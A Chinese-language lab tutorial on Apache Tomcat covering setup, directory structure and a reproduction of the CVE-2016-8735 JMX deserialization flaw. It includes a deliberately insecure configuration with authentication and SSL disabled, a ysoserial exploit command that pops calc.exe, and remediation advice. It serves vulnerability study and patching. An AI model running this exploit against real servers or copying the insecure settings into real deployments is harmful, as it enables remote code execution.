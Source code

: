 ### 介绍

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

### 环境搭建

```
Java环境安装
https://www.java.com/en/download/manual.jsp
Tomcat
https://tomcat.apache.org/download-70.cgi
```

1、下载并解压

![image-20200811143448762](/images/image-20200811143320510.png)

2、双击执行启动服务

```
http://192.168.3.156:8080/
```

![image-20200811143448762](/images/image-20200811143448762.png)

#### Tomcat结构介绍

下载解压后存在目录、文件信息：

```shell
bin-----存放Tomcat的脚本文件，例如启动、关闭
conf----Tomcat的配置文件，例如server.xml和web.xml
lib-----存放Tomcat运行需要的库文件（JAR包）
logs----存放Tomcat执行时的LOG文件
temp----存放Tomcat运行时所产生的临时文件
webapps-Web发布目录，默认情况下把Web应用文件放于此目录
work----存放jsp编译后产生的class文件
```

### 漏洞分类实战

#### CVE-2016-8735

##### 漏洞描述

Oracle修复了JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。 Tomcat也使用了JmxRemoteLifecycleListener这个监听器,但是Tomcat并没有及时升级，所以存在这个远程代码执行漏洞。

##### 影响范围

Apache Tomcat 9.0.0.M1 to 9.0.0.M11 

Apache Tomcat 8.5.0 to 8.5.6 

Apache Tomcat 8.0.0.RC1 to 8.0.38 

Apache Tomcat 7.0.0 to 7.0.72 

Apache Tomcat 6.0.0 to 6.0.47

##### 漏洞原理

该漏洞的诱因存在于Oracle已经修复的JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。因为Tomcat也使用了JmxRemoteLifecycleListener监听功能，但并没有及时升级，导致该远程代码执行漏洞。

##### 漏洞条件

1、要外部开启JmxRemoteLifecycleListener监听端口，实现远程利用。 

```xml
conf/server.xml
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```

![image-20200812101526860](/images/image-20200812101526860.png)

2、下载对应jar放到lib目录下：

- catalina-jmx-remote.jar要与对应tomcat版本一致[不同版本下载](https://archive.apache.org/dist/tomcat/)一般存在extras文件下，如下图所示
- [groovy2.3.9](https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9)下载版本最好为2.3.9（经过测试2.3.0到2.4.0-beta-4）

![image-20200812102130773](/images/image-20200812102130773.png)

![image-20200811163431177](/images/image-20200811163431177.png)

3、接着修改bin/catalina.bat，在Execute The Requested Command处上面添加

```java
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```

- -Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯
- -Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证

![image-20200812101910590](/images/image-20200812101910590.png)

4、服务启动

下图所示：服务已启动10001端口已启动

![image-20200812103050881](/images/image-20200812103050881.png)

##### 漏洞检测

1、执行以下PoC

```java
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.3.165 10001 Groovy1 calc.exe
```

Java 1.8出现报错

![image-20200812104703039](/images/image-20200812104703039.png)

1.7的jdk成功弹出计算器

![PoC](/images/PoC.gif)

##### 漏洞修复

紧急措施：关闭JmxRemoteLifecycleListener功能，或者是对jmx JmxRemoteLifecycleListener远程端口进行网络访问控制。同时，增加严格的认证方式。

升级jdk（目前测试1.8是无法利用）

推荐方案：官方已经发布了版本更新，建议您升级到最新版本。

- Apache Tomcat 9.0.0.M13或更新版本(Apache Tomcat 9.0.0.M12也修复了此漏洞，但并未发布)
- Apache Tomcat 8.5.8或更新版本(Apache Tomcat 8.5.7也修复了此漏洞，但并未发布)
- Apache Tomcat 8.0.39或更新版本
- Apache Tomcat 7.0.73或更新版本
- Apache Tomcat 6.0.48或更新版本